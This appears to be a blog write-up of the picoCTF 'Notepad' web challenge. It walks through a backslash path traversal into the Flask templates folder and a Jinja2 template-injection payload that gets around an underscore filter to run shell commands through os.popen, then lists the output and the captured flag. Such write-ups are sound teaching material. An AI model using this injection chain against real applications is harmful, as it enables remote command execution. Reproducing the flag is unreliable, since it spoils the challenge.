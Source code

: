 ```yaml
---
title: "Notepad"
tags:
- CTF
- Jinja2
- Path Traversal
- PicoCTF
- Python
- Web
date: 2022-02-21T09:24:30+05:30
draft: false
---
```


At first glance the webapp looks like a stripped down version of Pastebin where we can post a text / code snippet.
After submitting the query, we are redirected to an html page containing the content of the post.

The first thing I tried was triggering XSS (cross site scripting) with the following:
```html
<script>alert(1)</script>
```

The application source directory tree looks like the following:
```
.
├── app.py
├── Dockerfile
├── flag.txt
├── static
└── templates
    ├── errors
    │   ├── bad_content.html
    │   └── long_content.html
    └── index.html

```

Let's inspect the `app.py` source.

```python
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

Ok, so the application returns the `bad_content` message when it sees a slash or an underscore.
However, we can notice that an attacker has partial control over the error message template.

```python
@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))
```

The content we post gets uploaded to the static directory and the filename consists of the first 128 characters of the content, a hyphen and an 8 character url-safe random token.

```python
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
```

So, we can upload a valid Jinja2 template to errors directory, then use the filename in the error parameter tp render it through Jinja.

We can use a backslash instead of a forward slash along with double periods (`..`) for path traversal. From the static directory we'll go:
path | explanation
---- | ----
`..` | up to the root of the app
`..\templates\` | into templates
`..\templates\errors\` | then into errors 

We'll fill the remainder of the first 128 characters of the content to `A`s so that the filename does not get messed up.
Next up, using the right payload. I picked the following up from PayloadAllTheThings

```python
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

We have to bypass the underscores and it would be better if we could control the command.
The command can be passed through a request parameter and so can the underscore be.
We'll pass the underscore to the parameter `u` and retrieve it in the template using `request.args.u`.
Similarly, we'd retrieve the command `c` using `request.args.c`.

So
```python
cycler.__init__.__globals__
```
becomes
```python
cycler[request.args.u*2+'init'+request.args.u*2][request.args.u*2+'globals'+request.args.u*2]
```

Putting it all together, we have:

```python
..\templates\errors\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
{{cycler[request.args.u*2+'init'+request.args.u*2][request.args.u*2+'globals'+request.args.u*2].os.popen(request.args.c).read()}}
```

Note the `request.args.c` passed to `os.popen` for the commands we would run.

After uploading the payload we are rediected to a not found page.

https://notepad.mars.picoctf.net/templates/errors/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA-xcdn7y8bhU0.html

Let's now cause the app render our custom _"error"_ page. We'll also set the get parameter `u` to `_` and `c` to the command to run.

https://notepad.mars.picoctf.net/?errors=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA-xcdn7y8bhU0&u=_&c=COMMAND

Setting `c` to the `ls` command, we get:

```none
app.py
flag-c8f5526c-4122-4578-96de-d7dd27193798.txt
static
templates
```

Let's view the flag file. We'll set `c` to `cat%20flag-c8f5526c-4122-4578-96de-d7dd27193798.txt`

There's our flag!

```
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```
